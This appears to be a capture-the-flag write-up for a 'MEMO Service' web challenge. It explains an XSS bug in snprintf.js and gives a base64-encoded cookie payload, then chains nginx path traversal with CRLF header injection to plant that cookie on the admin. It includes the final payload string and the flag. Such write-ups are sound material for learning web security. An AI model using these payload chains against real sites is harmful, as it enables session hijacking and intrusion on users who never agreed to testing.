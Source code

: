 ```yaml
---
layout: default
title: MEMO Service
---
```




That was tough :|

### XSS Injection
First, we need to be able to XSS injection the website.
There is bug in the `snprintf.js` file, that you can insert `%3c`, and then it'll take the next memo[i], and will execute:
```js
arg = String.fromCharCode(parseInt(arg, 10))
```

By this way, we can give this cookie for example:
`["%3c><img src=x onerror=alert('XSS-injectoin****(~-_-~)****')>","39"]` 
base64 encode:
  *`WyIlM2M+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KCdYU1MtaW5qZWN0b2luKioqKih+LV8tfikqKioqJyk+IiwiMzkiXQ==`*

![XSS injection](./images/MEMO_XSS_injection.png)

#### Building the cookie

You can use this script [cookie_build.py]
```py
{% include_relative scripts/MEMO_Service_cookie_build.py %}
```
, for building your cookie, Change the `URL`, for your own webhook.

### Path Traversal

Ngnix is vulnerable to path traversal with this encoded slash `%2f`, we can go here: `/static/favicon.ico%2f..%2f..%2f`, and by this way access the home page.

### Header Injection Using CLRF

We can inject the `favicon.ico` using CLRF, and by this way modify the request.
![header Injection](./images/MEMO_Header_injection.png)

## ATTACK

we send the admin to the vulnerable page using the `header Injection`, and the `path traversal`. 
Then, we send in the headers `Set-Cookie`, and send the cookie that cause the `XSS Injection`.

At the end, this is what we'll supply to the report page
`favicon.ico%2f..%252f..%2f%0d%0aSet-Cookie:memo=ourMaliciousCookie`

![MEMO_final](./images/MEMO_Service_FLAG.png)

**Flag:** ***`FLAG{giant_double_burger}`*** 

